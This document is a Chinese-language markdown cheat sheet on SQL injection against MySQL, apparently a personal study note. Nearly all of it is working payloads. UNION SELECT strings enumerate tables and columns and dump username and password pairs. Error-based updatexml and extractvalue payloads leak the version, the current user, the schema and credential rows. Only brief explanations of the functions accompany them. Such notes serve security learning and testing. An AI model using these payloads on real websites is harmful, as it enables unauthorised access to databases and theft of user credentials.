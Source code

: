 ```yaml
---
author: 
  name: Zephyr
title: SQL注入
date: 2022-6-20 16:07:01
permalink: /pages/2e1547494524d1be
tags: 
  - web
  - SQL
---
```

# SQL注入

爆表名

```mysql
union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()
```



爆列名

```mysql
union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()
```



爆字段

```mysql
union select 1,group_concat(username,":",password),3 from users
```



## 报错注入

### updatexml函数

updataxml函数用法

```mysql
UPDATEXML (XML_document, XPath_string, new_value);
```

第一个参数：`XML_document`是`String`格式，为`XML`文档对象的名称

第二个参数：`XPath_string` (Xpath格式的字符串) 

第三个参数：`new_value`，`String`格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点

updatexml报错注入用法

爆出数据库的版本信息

```mysql
and updatexml(1,concat(0x7e,@@version,0x7e),1)%23
```

因为`concat()`是将其连接成一个字符串，不符合`xpath_string`格式，会出现格式错误而报错

爆出连接用户

```mysql
and updatexml(1,concat(0x7e,user(),0x7e),1)%23
```

爆表

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=数据库的十六进制表示),0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=0x7868) ,0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23
```

爆列名

```mysql
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=库的十六进制表示 and table_schema=表的十六进制表示),0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)%23
```

爆数据

```mysql
and updatexml(1,concat(0x7e,(select concat_ws("~",列名) from 表名 limit 0,1),0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select concat_ws("~",id,username,password) from users limit 0,1),0x7e),1)%23
```

例子

```mysql
and updatexml(1,concat(0x7e,(select concat_ws("~",id,username,password) from users limit 0,1),0x7e),1)%23
```

### extractvalue函数

第一个参数：XML_document是String格式，为XML文档对象的名称

第二个参数：XPath_string (Xpath格式的字符串)

extractvalue报错注入用法

爆出数据库的版本信息

```mysql
and extractvalue(1,concat(0x7e,@@version,0x7e))%23
```

爆表名

```mysql
and extractvalue(1,concat(0x7e,database(),0x7e))%23
```

爆出连接用户

```mysql
and extractvalue(1,concat(0x7e,user(),0x7e))%23
```

爆表

```mysql
and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=数据库的十六进制表示),0x7e))%23
```

```mysql
and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x7868),0x7e))%23
```

```mysql
and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```

爆列名

```mysql
and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=库的十六进制表示 and table_schema=表的十六进制表示),0x7e))%23
```

```mysql
and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e))%23
```

爆数据

```mysql
and extractvalue(1,concat(0x7e,(select concat_ws("~",id,username,password) from users limit 0,1),0x7e))%23
```





